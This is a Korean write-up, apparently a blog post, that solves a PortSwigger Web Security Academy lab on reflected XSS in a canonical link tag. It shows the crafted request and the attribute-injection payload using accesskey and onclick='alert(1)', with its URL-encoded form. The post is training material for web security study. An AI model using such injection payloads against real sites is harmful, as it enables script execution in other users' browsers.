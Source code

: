 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Reflected XSS in canonical link tag"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2024-10-11 21:55:00 +0900
---
```


# 개요
- 취약점 설명 주소: https://portswigger.net/web-security/cross-site-scripting/contexts
- 문제 주소: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag
- 난이도: PRACTITIONER (보통)


# 취약점 개요
꺾쇠 괄호(`<>`)를 인코딩하지만 속성을 삽입할 수 있는 웹사이트가 있을 수 있다. 때로는 표준 태그와 같이 일반적으로 이벤트를 자동으로 실행하지 않는 태그 내에서도 이러한 인젝션이 가능하다. Chrome에서 `accesskey` 속성과 사용자 상호작용을 사용하여 이 동작을 악용할 수 있다. accesskey 속성을 사용하면 특정 요소를 참조하는 키보드 단축키를 제공할 수 있다. accesskey 속성을 사용하면 다른 키(플랫폼마다 다름)와 함께 눌렀을 때 이벤트가 실행되도록 하는 문자를 정의할 수 있다. 이 랩에서는 accesskey 속성을 테스트하여 표준 태그를 익스플로잇할 수 있다. Port Swigger 리서치에서 개발한 기술을 사용하여 숨겨진 입력 필드에서 XSS를 익스플로잇할 수 있다.

## 플랫폼마다 다른 키 입력
참고로 플랫폼마다 다음과 같이 키 입력이 다르다. acessKey에 x 라는 값이 지정되어 있는 페이지에서 각 플랫폼마다 다음 키 입력을 누르면 이벤트가 발동한다. 

ALT+SHIFT+X (Windows)  
CTRL+ALT+X (MacOS)  
Alt+X (Linux)  

## 참고: [XSS in hidden input fields](https://portswigger.net/research/xss-in-hidden-input-fields)
본래 hidden 필드에 `accesskey` 속성을 넣었을 때 유저의 ALT+SHITF+X 입력과 함께 발동하는 테크닉이었지만 시간이 지난 뒤 Chrome 에서도 동작한다고 한다. 

다음과 같은 형태인 경우 XSS가 가능하다. 

```html
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```



# 랩 개요
- 이 랩은 유저 인풋중 꺾쇠 괄호(`<>`)를 에스케이프 해서 link 태그에 반영한다. 
- 랩을 풀려면 XSS공격을 수행해서 alert 함수를 호출하게 한다. 
- 유저는 ALT+SHIFT+X, CTRL+ALT+X, Alt+X 키보드 입력을 정기적으로 수행한다. 
- 이 취약점은 Chrome에서만 재현가능하다. 

```
This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

ALT+SHIFT+X
CTRL+ALT+X 
Alt+X 
Please note that the intended solution to this lab is only possible in Chrome.
```

# 도전

1. XSS가 가능한 곳을 찾는다. HTML페이지의 link 태그에 URL값이 들어가는 것을 알 수 있다. 

![](/images/burp-academy-xss-20-1.png)

2. 싱글 쿼트(`'`)는 에스케이프 처리되지 않는 것을 알 수 있다. 이 것을 악용하여 XSS 페이로드를 삽입할 수 있어 보인다. 


```http
GET /post?postId=5&test=a'&accesskey=x HTTP/2
Host: 0a1200110410a67c9cddfc4500c6007b.web-security-academy.net
Cookie: session=KL9V3wfxcP2TAafpzSuVrN02UKQdRwCw
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1200110410a67c9cddfc4500c6007b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Priority: u=0, i


```


![](/images/burp-academy-xss-20-2.png)

3. XSS 페이로드를 만든다. 랩을 잘 살펴보면 싱글 쿼트가 파라메터 값의 앞에 위치하면(예를 들면 accessKey='x) HTML페이지에서 표시될 때 싱글쿼트가 아니라 더블쿼트로 바뀌는 것을 알아챌 수 있다. 

즉, 이랬던 것이...

![](/images/burp-academy-xss-20-3.png)

URL에 파라메터 `?postId=4&'accesskey='x`를 지정해서 요청을 보내보면 다음과 같이 더블퀘트로 바껴서 응답이 돌아온다. 

![](/images/burp-academy-xss-20-4.png)

4. 이를 좀더 다듬으면 다음과 같이 페이로드를 만들 수 있다. 

```
/post?postId=4&'accesskey='x'onclick='alert(1)
```

URL 인코딩하면 다음과 같이 된다. 

```
/post?postId=4&%27accesskey=%27x%27onclick=%27alert(1)
```

5. 이 것을 서버에 요청을 보내면 다음과 같이 XSS공격이 가능한 형태의 HTTP 페이지가 회신된다. 

![](/images/burp-academy-xss-20-5.png)

6. 잠시 기다리면 문제가 풀렸다는 메시지가 표시된다. 

![](/images/burp-academy-xss-20-success.png)
